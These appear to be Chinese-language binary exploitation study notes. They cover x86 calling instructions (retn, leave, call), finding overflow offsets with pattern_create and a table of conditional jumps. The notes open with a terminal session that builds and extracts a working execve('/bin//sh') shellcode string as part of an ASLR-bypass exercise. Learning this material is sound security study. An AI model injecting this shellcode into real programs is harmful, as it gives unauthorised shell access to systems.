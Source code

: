 ```\
tianji@tianji-machine:~/Desktop/sploit/bypassaslr_1$ vim sh.s
tianji@tianji-machine:~/Desktop/sploit/bypassaslr_1$ as sh.s -o sh.s.o
tianji@tianji-machine:~/Desktop/sploit/bypassaslr_1$ ld sh.s.o -o sh
tianji@tianji-machine:~/Desktop/sploit/bypassaslr_1$ ./sh
$ asd
sh: 1: asd: not found
tianji@tianji-machine:~/Desktop/sploit/bypassaslr_1$ for i in $(objdump -d sh | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05
```
## retn和leave和call

retn: 

> 64位: pop rip;  rsp = rsp + 8
>
> 32位: pop eip; esp = esp + 4
>
> retn N操作：先eip=[esp]，然后esp=esp+4+N

leave:

> 64位: move rsp rbp; pop rbp               将rbp中的值传给rsp
>
> 32位: move esp ebp; pop ebp             将ebp中的值传给esp

call:

> 64位: push rip; jump 目的位置
>
> 32位: push eip; jump 目的位置

## 32位寻找偏移

> pattern_create 50
>
> pattern_offset 字符串

## 有符号整数比较和无符号整数比较

| 指令 | 含义                                     | 运算符号 |
| ---- | ---------------------------------------- | -------- |
| jbe  | unsigned below or equal (lower or same)  | <=       |
| jae  | unsigned above or equal (higher or same) | >=       |
| jb   | unsigned below (lower)                   | <        |
| ja   | unsigned above (higher)                  | >        |
| jle  | signed less or equal                     | <=       |
| jge  | signed greater or equal                  | >=       |
| jl   | signed less than                         | <        |
| jg   | signed greater than                      | >        |
